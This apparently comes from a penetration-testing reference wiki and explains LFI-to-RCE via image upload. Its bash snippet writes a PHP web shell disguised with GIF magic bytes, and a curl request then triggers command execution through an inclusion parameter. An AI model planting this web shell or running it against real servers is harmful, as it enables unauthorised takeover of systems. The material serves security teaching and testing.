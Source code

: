 ```yaml
---
authors: ShutdownRepo
---
```


# file upload

## Image Upload

> [!TIP]
> The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```bash
# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
```

> [!TIP]
> Other LFI to RCE via file upload methods may be found later on the chapter [LFI to RCE (via php wrappers)](file-upload.md#via-php-wrappers-and-streams).
